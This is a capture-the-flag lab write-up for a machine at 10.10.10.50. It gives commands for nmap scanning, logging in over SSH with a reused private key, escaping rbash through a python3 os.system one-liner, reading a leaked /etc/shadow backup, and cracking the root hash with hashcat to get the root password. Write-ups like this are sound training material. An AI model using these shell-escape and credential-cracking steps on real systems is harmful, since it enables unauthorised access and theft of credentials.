 ![[Pasted image 20210427091753.png]]

Starting with basic nmap scan 

`nmap -sC -sV 10.10.10.50`

![[Pasted image 20210427092230.png]]

We see that we only have port 22 open and when search for exploit for the 7.6p1 ssh version we don't come up with anything useful 

We have the `id_rsa` file , which is the private key of the user daniel from the previous box

We can use it to log into this box

`ssh -i id_rsa daniel@10.10.10.50`

![[Pasted image 20210427092847.png]]

We see that here we are in the rbash (restricted bash) shell and we are allowed to run only some commands 

We cannot run cat or vi but we can run python3

![[Pasted image 20210427093340.png]]

`python3 -c "import os;os.system('/bin/sh');"`

We can execute any system commands in the os.system() 

By using this python oneliner we get a normal non restricted shell of the daniel user

![[Pasted image 20210427094014.png]]

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

By using this python oneliner we get a stabalized shell

We see that we have access to the backup folder and we see that the /etc/shadow file is readable by us 

![[Pasted image 20210427094548.png]]

`root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:18334:0:99999:7:::
`

We can crack this hash using hashcat 

`hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt`

![[Pasted image 20210427095253.png]]

We get the password for the root user 

Username : `root`

Password : `password#1`

![[Pasted image 20210427095427.png]]

We get the root.txt flag

